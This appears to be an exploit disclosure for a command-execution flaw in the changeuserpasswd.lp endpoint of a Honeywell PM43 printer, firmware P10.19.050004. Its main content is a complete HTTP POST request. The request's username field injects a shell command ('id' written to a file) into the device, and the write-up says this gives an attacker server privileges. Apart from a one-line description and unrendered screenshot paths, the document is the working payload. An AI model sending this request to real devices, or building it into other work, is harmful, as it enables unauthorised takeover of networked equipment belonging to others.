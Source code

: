 

#### Exploit Title

Honeywell Products changeuserpasswd.lp command execution

#### Exploit Author

[webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vulnerability condition

Unlimited front desk

#### Vendor Homepage

https://www.honeywell.com

#### Version

Honeywell PM43 P10.19.050004

#### Description

There is a command execution vulnerability in Honeywell Products, through which an attacker can gain server privileges。

#### Payload used

![image-20231212105242158](/Users/w0lf/Library/Application Support/typora-user-images/image-20231212105242158.png)

```
POST /changeuserpasswd.lp HTTP/1.1
Host: xx.xx.xx.xx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_16_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: csrf=9467508602534952371f4aa348a930869a0c61de06e2f4df0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

username=test;id>tmp/test2.txt;&userpassword=123456&pageid=1
```

![image-20231212105401293](/Users/w0lf/Library/Application Support/typora-user-images/image-20231212105401293.png)

![image-20231212105412842](/Users/w0lf/Library/Application Support/typora-user-images/image-20231212105412842.png)
